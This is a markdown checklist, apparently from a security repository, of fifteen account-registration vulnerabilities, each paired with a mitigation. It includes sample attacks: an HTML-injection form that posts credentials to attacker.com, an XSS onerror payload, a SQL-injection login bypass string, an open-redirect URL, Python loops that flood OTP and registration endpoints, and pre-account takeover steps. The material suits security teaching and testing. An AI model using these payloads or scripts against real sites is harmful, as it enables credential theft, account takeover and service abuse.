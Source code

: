 # Account Registration Vulnerabilities

## 1. Http not Https  
**Vulnerability**: If the website uses HTTP instead of HTTPS, all data (like email, password, OTP) is sent in plaintext and can be intercepted.  
**Attack Scenario**: If you're on public WiFi and register on a website that uses HTTP, an attacker using tools like Wireshark can sniff your email and password easily.  
**Impact**: Credential theft.  
**Mitigation**: Enforce HTTPS and implement HSTS.

---

## 2. No confirmation code leads to account creation with admin email  
**Vulnerability**: If the website doesn't validate the email, you can register with someone else's email or even the admin's.  
**Attack Scenario**:  
◇ Sign up using `admin@example.com`  
◇ If there’s no confirmation, you now control the account associated with the admin’s email.  
**Impact**: Privilege escalation.  
**Mitigation**: Enforce email confirmation before allowing login or sensitive actions.

---

## 3. Reusable confirmation link  
**Vulnerability**: The confirmation link is reusable.  
**Attack Scenario**:  
◇ You receive an account confirmation email.  
◇ You confirm the account, but keep the link.  
◇ If reused, it grants access or creates a new session.  
**Impact**: Unauthorized access.  
**Mitigation**: Make confirmation links single-use and expire them after first use.

---

## 4. OTP abuse without rate-limiting  
**Vulnerability**: No rate limit on OTP requests allows abuse.  
**Attack Scenario**:  
◇ Attacker sends thousands of OTP requests to a victim.  
◇ Or brute-forces the OTP using Burp Intruder or Python script:

```python
import requests
for i in range(50):
    requests.post("http://example.com/send_otp", data={"email": "test@mail.com"})
```

**Impact**: DoS or unauthorized access.  
**Mitigation**: Apply rate limiting and CAPTCHA.

---

## 5. OTP leaked in response  
**Vulnerability**: OTP is included in the server response.  
**Attack Scenario**:  
◇ Intercept the request using Burp Suite.  
◇ Response contains `{ "otp": "123456" }`.  
**Impact**: Easy OTP theft.  
**Mitigation**: Never expose OTPs in responses; send them via secure channels.

---

## 6. Pre-account Takeover with 2FA  
**Vulnerability**: Attacker enables 2FA before verifying email.  
**Attack Scenario**:  
◇ Sign up with `victim@example.com`  
◇ Enable 2FA without verifying the email  
◇ Victim can’t access their account later.  
**Impact**: Account lockout.  
**Mitigation**: Block all settings access until email is verified.

---

## 7. Pre-account Takeover via social login  
**Vulnerability**: Attacker links social login to an unverified email.  
**Attack Scenario**:  
◇ Sign up with `victim@example.com`  
◇ Link Google account  
◇ Victim later tries to log in via Google and loses control.  
**Impact**: Unauthorized account linking.  
**Mitigation**: Restrict OAuth linking until email is verified.

---

## 8. OAuth Auto-verification exploit  
**Vulnerability**: Signing in via OAuth verifies an unverified account.  
**Attack Scenario**:  
◇ Attacker signs up with `victim@gmail.com` but doesn't verify.  
◇ Victim later uses Google OAuth.  
◇ Old attacker account becomes verified.  
**Impact**: Account takeover.  
**Mitigation**: Treat OAuth logins as separate flows; avoid merging with unverified accounts.

---

## 9. Email change bypasses verification  
**Vulnerability**: Change email before verifying original email.  
**Attack Scenario**:  
◇ Sign up with `victim@gmail.com`, don’t verify  
◇ Go to settings and change the email to `hacker@gmail.com` and verify  
◇ Entire account is now owned by attacker  
**Impact**: Email hijack  
**Mitigation**: Restrict email change until original email is verified.

---

## 10. Account deletion without password confirmation  
**Vulnerability**: Delete account without password confirmation.  
**Attack Scenario**:  
◇ After hijacking, attacker deletes account easily.  
**Impact**: Permanent denial of access.  
**Mitigation**: Require re-authentication for critical actions.

---

## 11. HTML Injection in username field  
**Vulnerability**: HTML injection leads to UI deception.  
**Attack Scenario**:
```html
<b style="color:red">Admin</b>
<img src=x onerror="alert('XSS')">
<form action="https://attacker.com" method="POST">
  <input name="username">
  <input name="password" type="password">
  <button type="submit">Login</button>
</form>
```
**Impact**: Phishing, fake UI, or visual manipulation.  
**Mitigation**: Sanitize user input and use output encoding.

---

## 12. SQL Injection in username or email  
**Vulnerability**: SQL injection through input fields.  
**Attack Scenario**:  
◇ Try input like `' OR 1=1 --`  
**Impact**: Bypass login, data access.  
**Mitigation**: Use prepared statements and ORM.

---

## 13. Open Redirect after registration  
**Vulnerability**: Unvalidated redirect URL parameter.  
**Attack Scenario**:  
◇ `http://example.com/redirect?url=http://attacker.com`  
**Impact**: Phishing or malware redirection.  
**Mitigation**: Whitelist redirect destinations.

---

## 14. Missing rate-limiting for registration  
**Vulnerability**: Allows mass account creation.  
**Attack Scenario**:

```python
import requests, random, string

def generate_username(): return ''.join(random.choices(string.ascii_lowercase, k=8))
def generate_email(): return ''.join(random.choices(string.ascii_lowercase, k=10)) + "@example.com"

url = "http://example.com/register"
data = { "password": "password123" }

for i in range(100):
    data["username"] = generate_username()
    data["email"] = generate_email()
    res = requests.post(url, data=data)
    print(f"Attempt {i+1}: {res.status_code}")
```

**Impact**: Spam, abuse, account farm.  
**Mitigation**: Apply CAPTCHA, email verification, and IP rate limiting.

---

## 15. Email enumeration on sign up  
**Vulnerability**: Site reveals if email exists during registration.  
**Attack Scenario**:  
◇ Try to register with `victim@example.com`  
◇ Server replies: "Email already in use"  
**Impact**: Leak of user existence.  
**Mitigation**: Generic error messages like "Registration failed."

